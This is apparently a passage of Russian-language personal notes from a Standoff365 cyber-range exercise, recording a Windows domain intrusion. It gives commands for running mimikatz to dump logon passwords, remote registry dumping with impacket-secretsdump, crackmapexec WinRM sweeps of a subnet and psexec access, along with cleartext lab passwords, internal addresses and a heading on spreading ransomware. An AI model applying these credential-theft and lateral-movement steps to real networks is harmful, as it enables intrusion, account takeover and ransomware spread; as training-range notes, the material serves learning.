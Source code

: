 Закидываем mimikatz на машину j_salazar (через iwr -uri .....) и запускаем с командой sekurlsa::logonpasswords - **результата нет** 

делаем удаленный дамп реестра
impacket-secretsdump hte/a_petinson_admin:uDp0KD5Siu0tXAdg@10.154.13.46 и получаем данные j_salazar [[Задачи Standoff365/HighTech/pass+log|pass+log]]

нам нужно выйти на машину j_glenn_admin чтобы пройти дальше по структуре организации
Пробуем подключиться к машинам с помощью учетки a_petinson и запускаем мимикатз
На машине 10.154.13.43 мы находим пароль от j_glenn_admin [[Задачи Standoff365/HighTech/pass+log|pass+log]]
Командой crackmapexec winrm 10.154.12.0/24 -u j_glenn_admin -p Oa99ocJ96tKNVGqP   проверяем доступ внутри сети и получается доступа к p_chandler
![](../../../attachment/Pasted%20image%2020241125155752.png)

![](../../../attachment/Pasted%20image%2020241125155956.png)


### Распространение вируса-шифровальщика

проходим все машины  для поиска кредов от srv admin v_cochran_admin![](../../../attachment/Pasted%20image%2020241125164029.png) Находим пароль на машине 10.154.13.42 [[Задачи Standoff365/HighTech/pass+log|pass+log]]
подключаемся с помощью psexec


http://10.154.13.246/
http://10.154.13.102:10008/Login?ReturnUrl=%2FMain%2FPrint%2F

scada guest -------- 13.71 Dispatcher (login????)
10.154.13.98  with creds operator https://hpp/systemmonitor/#!/app/  10.154.13.182:8111/flag?id=0

10.154.13.103/docs ------- 13.68


dc564861-1ffc-4670-becc-36ecf7921cc1  ---- 13.100 
